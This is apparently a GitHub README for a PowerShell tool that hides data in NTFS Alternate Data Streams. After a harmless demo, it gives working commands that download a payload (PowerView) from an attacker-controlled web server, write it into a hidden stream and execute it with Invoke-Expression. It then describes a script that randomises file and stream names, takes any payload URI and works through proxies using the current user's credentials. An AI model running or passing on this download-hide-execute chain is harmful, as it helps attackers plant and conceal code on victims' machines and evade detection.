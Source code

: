 # Alternate-Data-Streams with PowerShell

I literally stumbled upon this whislt reading up on the parameters for the Get-Content and Set-Content cmdlets for another piece of research.
The paramemeter that got my interest is -Stream which allows the user the ability to read and write NTFS alternate data streams.
If we create a file with the following commands;
```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
```
To read the file content, we use the following;
```powershell
Get-Content -Path $file
```
Which will return;
```powershell
Alternate Data Stream Test File
```

## Hiding Content
As I mentioned above the -Stream parameter lets the user access the 'Hidden' NTFS Alternate Data Stream.
A simple example using the file created above;
```powershell
Add-Content -Path $file -Value 'Hidden Data' -Stream 'hiddenstream'

Get-Content -Path $file -Stream 'hiddenstream'
```
## Something More Useful
This is great, however not so much use, so what if we could hide something a touch more useful, say PowerView?
Taking the simple Proof of Concept - alternate-data-stream.txt from the repository, we create a new file as above, put some content in the file, however we now dowload a payload, (PowerView.ps1 in this example), from a webserver we control and hide it in an NFTS Alternate Data Stream, (called powerview).Finally we grab the content from the ADS and execute it.

```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
Get-Content -Path $file
Alternate Data Stream Test File

$pvfile = Invoke-WebRequest -Uri http://192.168.0.105:8000/powerview.ps1
Add-Content -Encoding Byte -Path $file -Value $pvfile.Content -Stream 'powerview'
Invoke-Expression (Get-Content -Path $file -Stream 'powerview' -Raw)
```

Taking things further I put together a PowerShell script that creates a random filename with a randomish amount of random content and a random ADS name. The script asks the user for the uri of the payload to download and embed into the freshly created file. Also in this example the dowload process is able to detect webproxy settings and use the current users credentials, (Proxy Aware).

## The script should be ran . sourced i.e.
```powershell
. ./Invoke-ADS.ps1
```